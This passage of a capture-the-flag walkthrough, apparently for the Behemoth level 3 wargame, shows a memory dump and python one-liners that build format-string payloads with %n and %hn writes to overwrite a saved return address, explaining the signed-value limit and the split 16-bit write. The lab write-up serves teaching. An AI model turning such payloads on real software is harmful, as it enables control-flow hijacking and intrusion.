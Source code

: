 ```
0xffffd540  2530 3878 2e25 6e0a 0054 fdf7 0100 0000  %08x.%n..T......
0xffffd550  0000 0000 0100 0000 18d9 fff7 9fd5 ffff  ................
0xffffd560  9ed5 ffff 0100 0000 bf00 0000 3369 eaf7  ............3i..
0xffffd570  9ed5 ffff 9cd6 ffff e000 0000 0000 0000  ................
0xffffd580  00d0 fff7 18d9 fff7 a0d5 ffff 6282 0408  ............b...
0xffffd590  0000 0000 34d6 ffff 0070 fcf7 87c2 0000  ....4....p......
0xffffd5a0  ffff ffff 2f00 0000 c83d e2f7 a851 fdf7  ..../....=...Q..
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 3100 0000  .....p......1...
0xffffd5c0  0100 0000 0000 0000 3058 e4f7 2b85 0408  ........0X..+...
0xffffd5d0  0100 0000 94d6 ffff                      ........
[0x080484b2]> 
```

We see that we were able to change the value at address 0xffffd5bc to 31 (the number of bytes in our input up to and including %n). We can manipulate the value written from 31 to our number of choice by changing 1 of our %08x reads to a %u with the number of we want prepended to u. Example %1000u would print a 1000 digit number. Add our number of characters in the input with this to get the value that will be written with %n. Let's try a few numbers to see how this changes the value written to 0xffffd5bc.

```bash
behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*4 + "%1000u" + "%n"' > input.txt
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 1004 0000  .....p..........

behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*4 + "%10000u" + "%n"' > input.txt
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 3827 0000  .....p......8'..

behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*4 + "%117000000u" + "%n"' > input.txt
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 6847 f906  .....p......hG..

behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*4 + "%170000000u" + "%n"' > input.txt
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 a8fe 210a  .....p........!.

behemoth3@behemoth:/tmp/smhbehemoth3$ python -c 'print "\xbc\xd5\xff\xff" + "%08x."*4 + "%3308374036u" + "%n"' > input.txt
0xffffd5b0  0080 0000 0070 fcf7 0000 0000 2af3 e2f7  .....p......*...
```

On my last try, I determined how many more digits I would have to print in order to get a value of 0xffffd5bc and determined I needed exactly 3308374036 digits. However, we can see the return address didn't change as expected. This is because the %n specify writes a signed value which limits us to a maximum value of 0x7fffffff before we overflow and create a negative number. 

What we need to do instead is write the new return address as two separate shorts (16 bit values). To do so, we need to modify our input slightly. Instead of supplying just 1 address at the start of our input string, we need to supply two -- one that points to the lower 16-bits of the return address, and one that points to the higher 16-bits of the return address.

`python -c 'print "\xbc\xd5\xff\xff" + "\xbe\xd5\xff\xff" + "%08x."*4 + "%10u" + "%hn" + "%hn"' > input.txt`
